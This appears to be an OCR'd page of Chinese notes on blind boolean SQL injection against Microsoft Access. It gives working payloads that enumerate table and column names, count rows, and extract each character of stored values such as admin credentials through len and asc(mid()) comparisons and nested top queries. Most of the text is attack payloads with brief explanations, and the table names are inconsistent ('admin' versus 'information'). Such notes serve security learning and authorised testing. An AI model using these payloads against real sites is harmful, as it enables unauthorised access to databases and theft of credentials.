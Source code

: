 ```
判断存在sql注入后，判断是否存在admin表，如果存在，正常查询，如果不存在，报语法错误。然后通过枚举表名爆破

and exists(select* from  admin)
```

```
猜测字段也是一样，只能通过枚举来猜测 
```

```
判断有admin表后，再判断admin表有多少列，假如1-10正常查询，11列报语法报错，那说明有10列

and exists(select*from admin order by 10)

判断出存在的列数后，再判断具体的列名。以下语句判断是否存在name列，如果存在，正常查询，如果不存在，则报语法错误。然后再通过枚举列名爆破

and exists(select name from admin)
```

```
猜测完表名和字段名后，我们就看看这个表里面有多少行数据 ，如果>99查询正确，>100查询错误(这里是查询错误，而不是语法错误)，说明有100行数据
```

```
and (select count(*) from information)>100
```

```
然后在猜测每个字段具体的数据了 

access数据库中没有 limit，就不能限制查询出来的行数。但是我们可以使用top命令，top 1是将查询的所有数据只显示第一行，所以 top3就是显示查询出来的前三行数据了
```

```
猜测admin列的第一个数据的长度，如果大于5查询不出数据，大于4正常，说明admin列的第一个数据长度是5

and (select top 1 len(admin)from admin)>5
 
猜测admin列的第一行数据的第一个字符的ascii码值，如果大于97查询不出数据，大于96正常，说明admin列的第一行数据的第一个字符的ascii值是97

and (select top 1 asc(mid(admin,1,1))from admin)>97 

第一行数据的第二个字符

and (select top 1 asc(mid(admin,2,1))from admin)>97 
 
从第二行开始，查询数据就得用另外的语句了,因为这里的top只能显示查询前几条数据，所以我们得用联合查询，先查询前两条，然后倒序，然后在找出第一条，这就是第二条数据。

查询第二行admin列的长度

and (select top 1 len(admin)  from ( select top 2 * from information order by id)  order by id desc)>55
下面是查询第2条数据的第3个字符

and (select top 1 asc(mid(admin,3,1))  from ( select top 2 * from information order by id)  order by id desc)>55

查询第三条数据的4个字符
and (select top 1 asc(mid(admin,4,1))  from ( select top 3 * from information order by id)  order by id desc)>55
```
